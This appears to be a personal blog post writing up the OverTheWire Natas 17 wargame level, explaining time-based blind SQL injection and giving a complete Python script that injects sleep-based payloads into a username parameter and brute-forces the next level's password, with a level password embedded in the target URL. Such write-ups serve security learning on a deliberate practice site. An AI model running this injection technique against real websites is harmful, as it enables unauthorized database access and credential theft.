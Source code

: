 ```yaml
---
layout: post
title:  "NATAS17"
date:   2016-05-31 16:42:07 +0530
author: Prannay Khosla
categories: jekyll update
---
```


Natas 16 - 17 is one of the most challenging levels faced yet. It required SQL injection without having parseable output to access it. So what had to be done was to inject SQLthat timed out the page. That was simple, since any thing beyond 5 seconds would time out. So a select query which if returned true gave a timeout have to be injected from the PHP. The rest was trivial by brute forcing the password using a simple request based python script.

{% highlight python %}
import requests

# All possible characters
allChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
# Parsed characters, the ones that actually exist in the password
parsedChars = ''
# Final Password
password = ''
# Our target URL
target = 'http://natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw@natas17.natas.labs.overthewire.org/'

# Checking if we can connect to the target, just in case...
r = requests.get(target)
if r.status_code != requests.codes.ok:
        raise ValueError('Kabum? Couldn\'t connect to target :(')
else:
        print 'Target reachable. Starting character parsing...'


# The fun begin, let's see what characters are actually part of the pwd
for c in allChars:
        # SQL time-based injection #1
        try:
                r = requests.get(target+'?username=natas18" AND IF(password LIKE BINARY "%'+c+'%", sleep(5), null) %23', timeout=1)
        except requests.exceptions.Timeout:
                # If we got a timeout, the character exists
                parsedChars += c
                print 'Used chars: ' + parsedChars

print 'Characters parsed. Starting brute force...'

# Assuming password is 32 characters long
for i in range(32):
        for c in parsedChars:
                # SQL time-based injection #2
                try:
                        r = requests.get(target+'?username=natas18" AND IF(password LIKE BINARY "' + password + c + '%", sleep(5), null) %23', timeout=1)
                # Did we found the character at the i position of the password?
                except requests.exceptions.Timeout:
                        password += c
                        print 'Password: ' + password + '*' * int(32 - len(password))
                        break
{% endhighlight %}

The resources required were mainly [Python Requests API][pyreqapi] and [Natas 16 password][natas16].

[pyreqapi]: http://docs.python-requests.org/en/master/api/
[natas16]:   http://overthewire.org/wargames/natas/
